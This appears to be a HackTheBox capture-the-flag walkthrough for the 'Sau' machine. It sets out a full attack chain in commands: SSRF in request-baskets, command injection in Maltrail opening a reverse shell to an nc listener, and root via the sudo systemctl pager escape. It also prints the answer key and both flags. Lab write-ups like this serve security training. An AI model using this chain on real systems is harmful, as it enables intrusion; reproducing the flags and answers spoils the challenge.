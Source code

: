 
# HTB Walkthrough - Sau

**Machine:** Sau  
**Target IP:** 10.129.229.26

---

## Task 1 - Highest Open TCP Port

```bash
nmap -sV -sC -oA nmap/Sau 10.129.229.26
```

**Open Ports:**
- 22/tcp → OpenSSH 8.2p1
- 80/tcp → Filtered
- 55555/tcp → Golang net/http server

> **Answer:** 55555

---

## Task 2 - Name of Open Source Software on Port 55555

Accessing `http://10.129.229.26:55555/web/baskets` reveals:

> **Answer:** request-baskets

---

## Task 3 - Version of request-baskets

> **Answer:** 1.2.1

---

## Task 4 - CVE ID for SSRF in request-baskets v1.2.1

> **Answer:** CVE-2023-27163

---

## Task 5 - Software on Port 80 (via SSRF)

```bash
bash ./CVE-2023-27163.sh http://10.129.229.26:55555/ http://127.0.0.1:80/
```

Accessing `http://10.129.229.26:55555/<basket>` reveals:

> **Answer:** Maltrail

---

## Task 6 - Relative Path Vulnerable to Command Injection

Based on [EDB-51676](https://www.exploit-db.com/exploits/51676):

> **Answer:** /login

---

## Task 7 - System User Running Maltrail

Reverse shell using:

```bash
nc -nlvp 8888
python3 exploit.py 10.10.14.156 8888 http://10.129.229.26:55555/<basket>
```

> **Answer:** puma

---

## Submit User Flag

```bash
cat /home/puma/user.txt
```

> **Flag:** de1fe822eea8f84d4c69ca2429e78cff

---

## Task 9 - Binary puma Can Run as root

```bash
sudo -l
```

> **Answer:** /usr/bin/systemctl

---

## Task 10 - systemd Version

```bash
systemctl --version
```

> **Answer:** systemd 245 (245.4-4ubuntu3.22)

---

## Task 11 - CVE ID for Local Privilege Escalation in systemd

> **Answer:** CVE-2023-26604

---

## Submit Root Flag

```bash
sudo /usr/bin/systemctl status trail.service
!sh
id
cat /root/root.txt
```

> **Flag:** afc4350a2648b48b982367db13b5a9e3
